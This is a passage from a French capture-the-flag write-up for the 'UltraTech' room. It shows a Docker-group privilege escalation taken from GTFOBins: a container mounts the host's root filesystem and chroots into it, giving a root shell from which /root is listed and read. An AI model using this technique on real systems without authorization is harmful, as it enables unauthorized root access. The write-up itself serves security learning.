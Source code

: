 Mais là encore je n’ai rien trouvé d’intéressant.

Après avoir passé un peu de temps à chercher des informations un peu partout sur le système, je me suis rappelé que notre utilisateur fait partie du groupe `docker`.

Je me suis alors renseigné sur des escalades de privilèges via Docker et j’ai trouvé ceci sur Gtfobins :

Lien : [Docker privesc](https://gtfobins.github.io/gtfobins/docker/)

Je me suis alors demandé si cet exploit pourrait fonctionner dans notre situation.

D’abord vérifions si nous disposons d’une image Docker :

```bash
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        6 years ago         15.8MB
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# whoami 
root
```

Parfait, une image “bash” semble être disponible sur la machine.

Essayons d’exécuter la commande de GtfoBins sur notre image `bash`

```bash
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami
root
```

Et voilà ! Nous avons réussi à obtenir un shell `root` !

Il ne nous reste plus qu’à récupérer les 9 premiers caractères de la clé privée SSH de l’utilisateur et nous aurons terminer la room **UltraTech** !

```bash
# pwd
/
# cd root
# ls
private.txt
# cat private.txt
# Life and acomplishments of Alvaro Squalo - Tome I

Memoirs of the most successful digital nomdad finblocktech entrepreneur
in the world.

By himself.

## Chapter 1 - How I became successful

# ls -la
total 40
drwx------  6 root root 4096 Mar 22  2019 .
drwxr-xr-x 23 root root 4096 Mar 19  2019 ..
-rw-------  1 root root  844 Mar 22  2019 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Mar 22  2019 .cache
drwx------  3 root root 4096 Mar 22  2019 .emacs.d
drwx------  3 root root 4096 Mar 22  2019 .gnupg
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root    0 Mar 22  2019 .python_history
drwx------  2 root root 4096 Mar 22  2019 .ssh
-rw-rw-rw-  1 root root  193 Mar 22  2019 private.txt
```
